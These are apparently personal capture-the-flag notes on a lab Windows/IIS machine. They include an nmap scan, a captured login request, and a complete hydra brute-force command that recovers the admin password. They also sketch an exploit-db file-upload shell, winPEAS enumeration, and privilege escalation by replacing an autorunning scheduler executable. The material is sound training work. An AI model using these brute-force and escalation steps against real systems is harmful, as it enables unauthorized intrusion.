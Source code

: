 # scan: 
➜ nmap -sC -sV -Pn 10.10.99.216 -o nmap_scan.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-30 19:00 EDT
Nmap scan report for 10.10.99.216
Host is up (0.12s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-04-30T23:01:02+00:00; -1s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

# hydra
find login page
using post to log in
Use burp to see the whole thing (could also use inspect)
burp contents of request:
POST /Account/login.aspx?ReturnURL=%2fadmin HTTP/1.1
Host: 10.10.99.216
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.99.216/Account/login.aspx?ReturnURL=/admin
Content-Type: application/x-www-form-urlencoded
Content-Length: 548
Connection: close
Upgrade-Insecure-Requests: 1

__VIEWSTATE=QqkSpsUP5gospargWzEgk4%2FEEWd8r2YYfHY6Cc2mFVXBLVIBhNg00hwOefJAMh0jg7XBQQx%2FqxIVJ3RiwmeHG9ecZRPNlkoSyj4N3EYlrYg0EfdqYA1d%2FW0QO4oFoIuEqvVGISPNvOUnFApOS8zd2g%2FikJr7WESaanKyAG9TKut5oLCM&__EVENTVALIDATION=LdcrXoxAy31C4QIAy%2BnyJc0xaZLhzCTaC%2FNw%2Bb2viVEIDeIN3qPm5kt%2F642MuKN1VYJiVSrgtCzej5%2BFMKDFZuZUVePuFXyLF0E1Aa7oW7kZatayXUozYqk2N4QRvoBdm01trApNqsvUIl0WiJDqnUBrvmETd3NUCzaTDtR%2FxPPq%2B4At&ctl00%24MainContent%24LoginUser%24UserName=a&ctl00%24MainContent%24LoginUser%24Password=a&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
hydra command: 
hydra -l Administrator -P /usr/share/wordlists/rockyou.txt 10.10.99.216 http-post-form "/Account/login.aspx?ReturnUrl=/admin:__VIEWSTATE=QqkSpsUP5gospargWzEgk4%2FEEWd8r2YYfHY6Cc2mFVXBLVIBhNg00hwOefJAMh0jg7XBQQx%2FqxIVJ3RiwmeHG9ecZRPNlkoSyj4N3EYlrYg0EfdqYA1d%2FW0QO4oFoIuEqvVGISPNvOUnFApOS8zd2g%2FikJr7WESaanKyAG9TKut5oLCM&__EVENTVALIDATION=LdcrXoxAy31C4QIAy%2BnyJc0xaZLhzCTaC%2FNw%2Bb2viVEIDeIN3qPm5kt%2F642MuKN1VYJiVSrgtCzej5%2BFMKDFZuZUVePuFXyLF0E1Aa7oW7kZatayXUozYqk2N4QRvoBdm01trApNqsvUIl0WiJDqnUBrvmETd3NUCzaTDtR%2FxPPq%2B4At&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed"
the login failed part at the end is how hydra knows if it worked or not, should match what the website responds with 
find admin has 1qaz2wsx

# exploit
use 46353.cs
change values and do what it says and get shell 
go to http://10.10.99.216/?theme=../../App_Data/files to get callback after upload as PostView.ascx

# enumerate
use systeminfo to get info and pluyg into windows-exploit-suggester
Nothing there that I can use really. - maybe this: cat /usr/share/exploitdb/exploits/windows/local/37049.txt
Tried that, didn't work or do anything =/ does it work if I'm on MSF? GOt some weird errors on that too. 
Uploaded and ran winPEAS
* could use psexec probably since winpeas has a password thatmight work? 


#excalate
Has something to do with the scheduler, not sure what exe they're looking for
Can see that it's autorunning and everyone can run it. 
See that systemscheduler has event logs that show message.exe is restarting a lot
overwrite with exe and get shell
Could have used one of the things exploit suggested I would just have to compile them to get different functionality. 

